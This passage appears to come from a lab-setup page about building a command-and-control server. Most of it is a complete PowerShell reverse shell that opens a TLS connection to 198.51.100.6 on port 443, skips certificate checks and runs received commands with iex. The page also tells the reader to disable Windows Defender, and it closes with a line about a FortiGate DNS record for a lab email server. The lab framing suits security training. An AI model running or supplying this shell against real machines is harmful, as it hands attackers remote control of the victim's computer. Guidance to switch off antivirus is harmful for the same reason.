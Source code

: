 <div align="center">  
    <img alt="Windows network share" src="/resources/images/windows/nas-1.png" width="100%">  
</div>  

If you want to implement the C2 server described in [Carrie Robers PowerShell script](/resources/docs/vm-setup/setup-c2-server.md), disable Windows Defender and use script

```bash
$socket = New-Object Net.Sockets.TcpClient('198.51.100.6', 443)
$stream = $socket.GetStream()
$sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
$sslStream.AuthenticateAsClient('fake.domain', $null, "Tls12", $false)
$writer = new-object System.IO.StreamWriter($sslStream)
$writer.Write('PS ' + (pwd).Path + '> ')
$writer.flush()
[byte[]]$bytes = 0..65535|%{0};
while(($i = $sslStream.Read($bytes, 0, $bytes.Length)) -ne 0)
{$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data | Out-String ) 2>&1;
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$sslStream.Write($sendbyte,0,$sendbyte.Length);$sslStream.Flush()}
```

To access the lab email server (if you followed the tutorial), a DNS record is created in the FortiGate DNS Database.
